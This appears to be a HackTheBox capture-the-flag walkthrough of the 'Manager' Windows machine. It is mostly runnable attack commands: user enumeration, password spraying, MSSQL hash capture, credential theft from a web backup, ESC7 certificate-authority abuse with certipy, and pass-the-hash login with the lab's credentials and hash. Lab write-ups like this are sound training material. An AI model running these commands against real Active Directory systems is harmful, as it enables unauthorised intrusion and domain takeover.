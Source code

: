 ```yaml
---
date: 2025-01-18
categories: [CTF, HTB]
title: "HTB - Manager"
tags: ['hashcat', 'impacket', 'linux', 'nmap', 'privilege escalation', 'rce', 'smb', 'windows', 'tryhackme', 'hackthebox', 'immersivelabs', 'thm', 'iml', 'htb']

description: "Manager - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# HTB - Manager

NMAP

![image1](../resources/0aaa9860fd9a41b0ad8c934cd32f5256.png)
 
Add manager.htb to /etc/hosts

```bash
./kerbrute userenum --dc 10.129.217.154 -d manager.htb /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -o users.txt

```

![image2](../resources/b2465f024a0c41519698f423a6e726c1.png)

```bash
cat users.txt | grep "VALID" | cut -d ":" -f 4 | cut -d " " -f 2 > validusers.txt

impacket-GetNPUsers manager.htb/ -users validusers.txt -no-pass -dc-ip manager.htb
```

![image3](../resources/254b9407b415478ab6610387debfca97.png)

- No ASRepRoasting to be done

- Not able to login with usernames and no password:
  
```bash
enum4linux -u "guest" -a manager.htb

```
- Extract the usernames:
  
```bash
cat validusers.txt | cut -d '@' -f1 > usernames.txt

```
- Got a using the usernames as passwords:
  
```bash
crackmapexec smb manager.htb -u usernames.txt -p usernames.txt --no-brute --continue-on-success

```

![image4](../resources/eea8a12ece0c459b93854c2005b25275.png)

**operator:operator**

**<u>MSSQL</u>**

- We do have port 1433 open - MSSQL:

- Using Windows' own **sqlcmd** - it doesn't work:
  
```bash
sqlcmd -S manager.htb,1433 -U operator -P operator -C

```

![image5](../resources/5d76c8f76d954958b795a9e18ec48cd5.png)

- But using impacket's tool mssqlclient:
  
```bash
impacket-mssqlclient -p 1433 manager/operator:operator@manager.htb -windows-auth

```

![image6](../resources/99b0ec907f5a4869bda3a02ed837b8fe.png)

We can connect specifying the **-windows-auth** parameter

It authenticates using Windows authentication, which could suggest that the 'operator' account is configured or works correctly under Windows authentication rather than SQL Server authentication

<u>List of extra commands:</u>


![image7](../resources/2f7494eef5664d589dd45345cb972db0.png)

```sql
SELECT @@VERSION -- to get the SQL Server version,
SELECT SYSTEM_USER -- to identify the current user,
SELECT name FROM master.sys.databases -- to list databases
USE DatabaseName; -- Use db
SELECT table_name FROM information_schema.tables WHERE table_type = 'BASE TABLE'; -- Show all tables in db
SELECT * FROM TableName; -- Show all information in table
```
----------------------------------------------------------------------------------------------------------------

- Tried to crack ntlm hashes with xp_dirtree and responder:

![image8](../resources/d4c0dd63c9f445b1afe8dd6696615a20.png)


![image9](../resources/76f151fbf7824747b249c7e0f170faa1.png)


![image10](../resources/9f9aedd0abbe4b4184e63beb28c32bde.png)


![image11](../resources/c78b85ef04ed479fa9c5ee31e2290425.png)

But hashcat got exhausted

----------------------------------------------------------------------------------------------------------------

- Using xp_dirtree we can list all the folders in c:\\

![image12](../resources/4d8818100ffc4512a8d55ed9ae323f53.png)

- The default IIS webserver directory is:  
**C:\inetpub\wwwroot**


![image13](../resources/64fb85956c6341f8b29c5f13b89d3bed.png)

Here we can see a .zip file

- Using wget we can download the file:
  
```bash
wget http://manager.htb/website-backup-27-07-23-old.zip

```

![image14](../resources/f3341b964f204c6eb1e6935054e02c92.png)

- We get credentials for raven in the **.old-conf.xml**:

![image15](../resources/2c6fe37d17114303965dc8c159082031.png)

**raven : R4v3nBe5tD3veloP3r!123**


![image16](../resources/3c3efa2fc52c4cacb9e4c6cc8e6c5501.png)

```bash
evil-winrm -i manager.htb -u raven -p 'R4v3nBe5tD3veloP3r!123'

```

![image17](../resources/003b757401604cd1be69a9ea7b0ed67a.png)

```bash
cat user.txt

```
- Check VMWare version:
  
```powershell
$vmwareToolsDir = "C:\Program Files\VMware\VMware Tools"
$vmwareToolsVersion = (Get-Item "$vmwareToolsDir\vmtoolsd.exe").VersionInfo.FileVersion
Write-Host "VMware Tools Version: $vmwareToolsVersion"

```

![image18](../resources/25dc1069185941a7a432cad977f77ca4.png)

- Upload Certify.exe:
**Certify is a C# tool to enumerate and abuse misconfigurations in Active Directory Certificate Services (AD CS)**

<https://github.com/GhostPack/Certify>

```bash
.\Certify.exe find /vulnerable

```

![image19](../resources/c8af8c2b87244e07bba9201823fd087a.png)

Raven has ManageCA and Enroll rights but there are no vulnerable templates

This does confirm however that there are ADCS services running


![image20](../resources/ede8fbf26aa64d33b6e422a1cdfab847.png)

- <u>This scenario is vulnerable to ESC7:</u>
<https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation>

<https://github.com/ly4k/Certipy?tab=readme-ov-file#esc7>

- **<u>Steps (on Kali):</u>**

```bash
certipy ca -ca 'manager-DC01-CA' -add-officer raven -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123'

```

![image21](../resources/879f1ab119c14bfb9bbddd70c1e31605.png)

```bash
certipy ca -ca 'manager-DC01-CA' -enable-template SubCA -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123'

```

![image22](../resources/949370e28b9f461db3da6d2925e8c6c4.png)

**<u>Attack</u>**

- If we have fulfilled the prerequisites for this attack, we can start by requesting a certificate based on the SubCA template.
This request will be denied, but we will **save the private key** and note down the **request ID**

```bash
certipy req -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123' -ca 'manager-DC01-CA' -target manager.htb -template SubCA -upn administrator@manager.htb

```

![image23](../resources/207f1cf8d6744258b457b6e55da46cec.png)

- With our Manage CA and Manage Certificates, we can then issue the failed certificate request with the ca command and the
-issue-request \<request ID\> parameter

```bash
certipy ca -ca 'manager-DC01-CA' -issue-request **13** -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123'

```

![image24](../resources/939eb694d26b41f99d409f1092996575.png)

- And finally, we can retrieve the issued certificate with the req command and the -retrieve \<request ID\> parameter

```bash
certipy req -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123' -ca 'manager-DC01-CA' -target manager.htb -retrieve 13

```

![image25](../resources/b508267ecf5a40adaf179cc413aa3dd2.png)

- Now we have a **.pfx certificate** as the administrator

- Authenticate as the administrator:
  
```bash
certipy auth -pfx administrator.pfx -dc-ip 10.129.218.140

```

![image26](../resources/76c6fc86c8494ddb96624e3e89883ae4.png)

We get a NTP error because the time difference between my Kali machine and the DC is too big

- To synchronise the time, run:
  
```bash
sudo ntpdate -u manager.htb

```

![image27](../resources/89eb775c801241b0abd0b6b2f5273ab0.png)

These two steps, between the ntp sync and auth, needs to be quick

- And we get an administrator hash:

![image28](../resources/2d29121dc61448e18c2aeeb3ab32c5d1.png)

- Using the hash and evil-winrm:
  
```bash
evil-winrm -i manager.htb -u administrator -H ae5064c2f62317332c88629e025924ef

```

![image29](../resources/26f6cfb6503540428d9ae1ce1f6f9895.png)

```bash
cat root.txt

```
